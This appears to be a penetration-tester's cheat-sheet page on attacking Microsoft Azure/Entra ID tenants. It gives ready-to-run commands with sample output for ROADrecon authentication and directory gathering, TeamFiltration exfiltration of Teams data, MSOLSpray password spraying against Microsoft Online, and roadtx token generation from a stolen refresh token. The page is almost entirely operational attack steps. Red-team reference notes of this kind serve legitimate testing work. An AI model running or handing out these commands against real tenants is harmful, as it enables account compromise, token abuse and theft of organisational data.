 ```yaml
---
title: "Azure Enum"
date: 2025-02-21
tags: ["Cloud", "Azure", "Password Spraying", "Enumeration", "Microsoft", "Windows", "Reconnaissance"]
---
```


### Recon

{{< tab set1 tab1 >}}ROADTools{{< /tab >}}
{{< tab set1 tab2 >}}TeamFiltration{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Authenticate

```console
roadrecon auth -u '<USER>' -p '<PASSWORD>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon auth -u 'apple.seed@example.com' -p 'Test1234'
Tokens were written to .roadtools_auth
```

#### 2. Info Gathering

```console
roadrecon gather
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gather                                                       
Starting data gathering phase 1 of 2 (collecting objects)
Starting data gathering phase 2 of 2 (collecting properties and relationships)
ROADrecon gather executed in 12.27 seconds and issued 1152 HTTP requests.
```

#### 3. Explore the Data

```console
roadrecon gui
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gui   
 * Serving Flask app 'roadtools.roadrecon.server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

<small>*Ref: [ROADTools](https://github.com/dirkjanm/ROADtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Data Exfiltration

```console
./TeamFiltration --roadtools .roadtools_auth --exfil --teams --outpath <OUTPUT_PATH>
```

<small>*Ref: [TeamFiltration](https://github.com/Flangvik/TeamFiltration)*</small>

{{< /tabcontent >}}

---

### Password Spraying

> <strong>BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!</strong>

{{< tab set2 tab1 >}}MSOLSpray{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import Module

```console
Import-Module MSOLSpray.ps1
```

#### 2. Run

```console
Invoke-MSOLSpray -UserList <USERS_FILE> -Password
```

```console {class="sample-code"}
┌──(kali㉿kali)-[/home/kali/Desktop/MSOLSpray]
└─PS> Invoke-MSOLSpray -UserList .\users.txt -Password Test1234                                                                                                                                         
[*] There are 10 total users to spray.
[*] Now spraying Microsoft Online.                                                                                                                                                                                  
[*] Current date and time: 02/20/2025 14:48:11                                                                                                                                                                      
[*] SUCCESS! apple.seed@example.com : Test1234
```

<small>*Ref: [MSOLSpray](https://github.com/dafthack/MSOLSpray)*</small>

{{< /tabcontent >}}

---

### Generate Token with Refresh Token

{{< tab set3 tab1 >}}ROADTools{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
roadtx gettokens --refresh-token '<SECRET>' -c '<CLIENT_ID>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadtx gettokens --refresh-token '1.Aa8AA...[SNIP]...zt4WQ' -c '04b07...[SNIP]...f7b46'
Requesting token for resource https://graph.windows.net
Tokens were written to .roadtools_auth
```

<small>*Ref: [ROADTools](https://github.com/dirkjanm/ROADtools)*</small>

{{< /tabcontent >}}
